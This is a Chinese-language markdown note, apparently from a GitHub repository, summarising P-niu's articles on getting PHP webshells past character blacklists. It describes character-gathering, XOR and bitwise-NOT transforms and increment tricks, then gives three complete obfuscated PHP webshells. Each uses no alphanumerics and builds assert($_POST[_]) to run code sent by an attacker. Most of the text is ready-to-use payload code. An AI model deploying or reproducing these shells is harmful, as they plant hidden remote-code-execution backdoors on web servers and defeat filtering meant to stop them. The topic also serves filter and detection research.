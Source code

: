 # webshell绕过黑名单

根据p牛写的文章总结+上自己的一些发现

 https://www.leavesongs.com/PENETRATION/webshell-without-alphanum.html 

 https://www.leavesongs.com/PENETRATION/webshell-without-alphanum-advanced.html 



## 思路

1. 确认可用字符，通过变换得到新的字符

2. 利用其它环境来实现命令执行



## 收集可用字符

`print([])=>Array`

`print((100000000000000000){3})=>E`

`true=>1`





## 变换方法

### 位运算符

通过一系列运算将某个字符转为其他字符



(~%8F%97%8F%96%91%99%90)()=>phpinfo()



也可以通过 利用的是UTF-8编码的某个汉字，并将其中某个字符取出来，比如`'和'{2}`的结果是`"\x8c"`，其取反即为字母`s` 



p牛的例子

```php
<?php
$__=('>'>'<')+('>'>'<');
$_=$__/$__;

$____='';
$___="瞰";$____.=~($___{$_});$___="和";$____.=~($___{$__});$___="和";$____.=~($___{$__});$___="的";$____.=~($___{$_});$___="半";$____.=~($___{$_});$___="始";$____.=~($___{$__});

$_____='_';$___="俯";$_____.=~($___{$__});$___="瞰";$_____.=~($___{$__});$___="次";$_____.=~($___{$_});$___="站";$_____.=~($___{$_});

$_=$$_____;
$____($_[$__]);
```

```php
<?php
$_=('%01'^'`').('%13'^'`').('%13'^'`').('%05'^'`').('%12'^'`').('%14'^'`'); // $_='assert';
$__='_'.('%0D'^']').('%2F'^'`').('%0E'^']').('%09'^']'); // $__='_POST';
$___=$$__;
$_($___[_]); // assert($_POST[_]);
```



还有一个就是目录下的字符合成



### ++$a

`$a='b';$a++;print($a)`=>c

利用`[]`来生成Array,来获得字符

```php
<?php
$_=[];
$_=@"$_"; // $_='Array';
$_=$_['!'=='@']; // $_=$_[0];
$___=$_; // A
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;
$___.=$__; // S
$___.=$__; // S
$__=$_;
$__++;$__++;$__++;$__++; // E 
$___.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // R
$___.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // T
$___.=$__;

$____='_';
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // P
$____.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // O
$____.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // S
$____.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // T
$____.=$__;

$_=$$____;
$___($_[_]); // ASSERT($_POST[_]);
```